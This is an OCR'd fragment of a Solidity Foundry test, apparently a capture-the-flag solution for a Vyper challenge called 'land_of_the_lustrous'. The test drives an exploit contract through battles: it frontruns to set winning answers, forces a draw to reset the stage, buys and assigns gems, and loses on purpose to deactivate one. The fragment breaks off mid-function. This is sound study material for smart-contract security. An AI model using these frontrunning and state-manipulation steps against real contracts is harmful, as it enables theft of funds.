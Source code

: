 ```solidity
        vm.deal(address(vyperDeployer), 1000000 ether);
        lustrous = ILustrous(vyperDeployer.deployContract("land_of_the_lustrous"));
    }

    function testRun() public {
        console.log("stage :", lustrous.stage());
 
        lustrousExploit exploit = new lustrousExploit{value: 1 ether}(lustrous);

        uint8[] memory action = new uint8[](100);
        for (uint i; i < action.length; i++) {
            action[i] = uint8(uint256(keccak256(abi.encodePacked(i))) % 3);
        }

        // frontrun to set correct answer
        uint8[] memory ans = new uint8[](100);
        for (uint i; i < ans.length; i++) {
            ans[i] = (action[i] + 1) % 3;
        }
        exploit.setAnswer(ans);

        vm.prank(address(vyperDeployer));
        lustrous.battle(action);


        action = new uint8[](200);
        for (uint i; i < action.length; i++) {
            action[i] = uint8(uint256(keccak256(abi.encodePacked(i))) % 3);
        }

        ans = new uint8[](200);
        for (uint i; i < ans.length; i++) {
            ans[i] = action[i];
        }
        // draw to reset stage back to 0 without losing health
        exploit.setAnswer(ans);

        vm.prank(address(vyperDeployer));
        lustrous.battle(action);


        // buy a new gem with the earned 1 ether in the first battle
        exploit.buy_gem();
        
        // assign the 2nd gem
        exploit.assign_gem(1);

        action = new uint8[](100);
        for (uint i; i < action.length; i++) {
            action[i] = uint8(uint256(keccak256(abi.encodePacked(i))) % 3);
        }

        ans = new uint8[](100);
        for (uint i; i < ans.length; i++) {
            ans[i] = (action[i] + 2) % 3;
        }
        // intentionally lose in the first attack so 2nd gem become inactive
        exploit.setAnswer(ans);

        vm.prank(address(vyperDeployer));
        lustrous.battle(action);


```